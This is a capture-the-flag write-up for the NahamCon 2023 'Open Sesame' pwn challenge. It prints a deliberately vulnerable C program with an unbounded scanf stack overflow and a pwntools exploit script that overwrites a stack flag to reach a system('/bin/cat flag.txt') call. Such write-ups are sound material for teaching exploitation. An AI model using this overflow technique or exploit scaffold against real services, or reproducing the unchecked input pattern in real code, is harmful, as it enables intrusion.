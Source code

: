 ```yaml
---
title: Open Seasame  , NahamCon 2023
author: megachar0x01
date: 2023-06-19
categories: [Pwn, amd64, ctf]
---
```


## Description : 
The updated program prompts the user to enter a password to open a simulated cave of gold. In addition to entering the correct password, the boolean variable `caveCanOpen` must also be set to `yes` for the cave to open. If both conditions are met, the program displays a success message, executes a system command to reveal the contents of the 'flag.txt' file (the treasure), and terminates. If the password is incorrect or the `caveCanOpen` variable is not set to `yes`, the program displays an error message or exits. The given program does not enforce any length limit on the user input, making it vulnerable to buffer overflow attacks. An attacker could potentially craft a payload by appending the correct password followed by a null byte to terminate the string, and then provide a large amount of junk values to override the `caveCanOpen` variable on the stack. By doing so, the attacker can bypass the check for `caveCanOpen == no` and proceed to the password validation step. This can lead to unauthorized access to the cave's treasure `flag.txt`

## Protection:

<img src="https://i.imgur.com/BhZ36RY.png" alt="vuln_1">


## Vulnerable Code:


```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>


typedef enum {no, yes} Bool;

void flushBuffers() {
    fflush(NULL);
}

void flag()
{  
    system("/bin/cat flag.txt");
    flushBuffers();
}

Bool isPasswordCorrect(char *input)
{
    return (strncmp(input, "OpenSesame!!!", strlen("OpenSesame!!!")) == 0) ? yes : no;
}

void caveOfGold()
{
    Bool caveCanOpen = no;
    char inputPass[256];
    
    puts("BEHOLD THE CAVE OF GOLD\n");

    puts("What is the magic enchantment that opens the mouth of the cave?");
    flushBuffers();
    
    scanf("%s", inputPass);

    if (caveCanOpen == no)
    {
        puts("Sorry, the cave will not open right now!");
        flushBuffers();
        return;
    }

    if (isPasswordCorrect(inputPass) == yes)
    {
        puts("YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:");
        flag();
    }
    else
    {
        puts("ERROR, INCORRECT PASSWORD!");
        flushBuffers();
    }
}

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    caveOfGold();

    return 0;
}
```



```python
#!/usr/bin/python3
from pwn import *
import struct

# Set the log level to control the verbosity of logs
context.log_level = 'error'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *isPasswordCorrect
continue
'''.format(**locals())

# Set the path to the binary
exe = './open_sesame'
elf = context.binary = ELF(exe, checksec=False)
exe_rop = ROP(elf, checksec=False)

# Get the libc library
libc = elf.libc
libc_rop = ROP(libc, checksec=False)

# Start the process
io = start()

# Set the padding size
padd = 280

# Create the payload
payload = b"A" * padd
payload += b"B" * 6
payload = b"OpenSesame!!!\x00aaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa"

# Send the payload to the target binary
io.sendlineafter(b"What is the magic enchantment that opens the mouth of the cave?\n", payload)

# Switch to interactive mode to interact with the exploited binary
io.interactive()


```
